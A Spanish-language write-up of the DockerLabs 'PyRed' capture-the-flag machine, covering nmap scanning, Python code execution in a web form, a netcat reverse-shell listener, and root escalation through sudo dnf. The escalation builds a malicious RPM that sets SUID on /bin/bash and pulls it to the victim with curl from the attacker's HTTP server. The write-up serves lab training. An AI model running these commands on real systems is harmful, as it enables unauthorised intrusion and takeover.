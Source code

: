 # [PyRed](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pyred.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **5000**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/70ead140-7cd7-425c-b752-91af435f17ca)

<br>
<br>

## Página Web (Puerto 8080)

Al ver que está abierto el puerto 5000 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:5000` ya que es el puerto 5000 el que aloja este servidor Web. Podemos ver u cuadro de texto que nos permite ejecutar código de python:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cc47a583-053b-47ea-b3ac-60a40ec4e529)

<br>

Sabiendo esto probamos a ejecutar el siguiente código:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7f021600-a07d-4d7f-ab8e-2fd5f06f90e6)

<br>

Este código de python nos permite ejecutar comandos gracias a '`os.system`, por lo que una vez que sabemos esto pasaremos a mandarnos una revshell. En primer lugar nos ponemos en escucha por el puerto 443 con `nc -nlvp 443`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6c6cee8b-6d9d-42f6-a3dc-97ebfe452a05)

<br>

En segundo lugar, debemos ejecutar un código en la web el cual nos mande una revshell, que sería el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/26e67216-520f-4840-bbd4-e4ff2405e8c6)

<br>

 > Una página muy útil para las revshell sería [esta](https://www.revshells.com/).

<br>

Y si nos dirigimos a nuestra terminal por donde estamos en escucha habremos recibido una shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c7857125-e53e-43ab-b728-faabee59cc57)

<br>
<br>

## Escalada de Privilegios

He intentado hacer el Tratamiento de la TTY pero la bash se me petaba ya que no estaba instalado el comando script, por lo que tendremos que apañarnos sin el Tratamiento.
<br>

Vemos que hemos ingresado a la máquina como el usuario **primpi**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1cb8ddcf-33fc-4755-8871-5b328dc2ec26)

<br>

Si ejecutamos `sudo -l` podemos ver que podemos ejecutar `/usr/bin/dnf` sin proporcionar contraseña y poder escalar a **root**.
`-l` ⮞ listar comandos que podemos ejecutar como sudo 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d057bbe9-a595-435c-a090-da08e62c96b5)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dba9732a-08af-4d4c-9ee5-d4b103148160)

<br>

Por lo que en primer lugar debemos crear un paquete rmp personalizado en nuestra máquina de atacante, para ellos debemos seguir los siguientes pasos:
<br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 1-. `TF=$(mktemp -d)`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 2-. `echo 'chmod +s /bin/bash' > $TF/x.sh`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 3-. `fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF`
<br>

 > Si no tenemos instalado fpm, debemos instalarlo con `gem install fpm`
<br>

Una vez que tenemos el paquete creado:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4967dfd2-e5c4-4554-a87b-de27806835d6)

<br>

Nos lo compartiremos con la máquina víctima a través de un servido de python, de la siguiente manera `python3 -m http.server 80`, y en la máquina víctima hacemos un `curl 172.17.0.1/x-1.0-1.noarch.rpm -o x-1.0-1.noarch.rpm` para obtener el paquete
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6495f01d-fa2e-4f3d-82bd-662f29fbf6dc)

<br>

 > Si te da un error como este, recuerda que debes estar en un directorio donde tengas capacidad de escritura ![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6215d2b9-efe9-4228-bb88-54c37cd16227)

<br>

Por lo que ejecutaríamos el siguiente comando `sudo -u root dnf install -y x-1.0-1.noarch.rpm`, y comprobamos que tenemos el permiso SUID en la `/bin/bash`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ee75c5a4-8462-4932-b4b3-2854dbff3ac5)

<br>

Por lo que ahora haremos `/bin/bash -p`, y listo ya seremos `root`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5fc29cef-97d8-413c-987e-c90451029901)
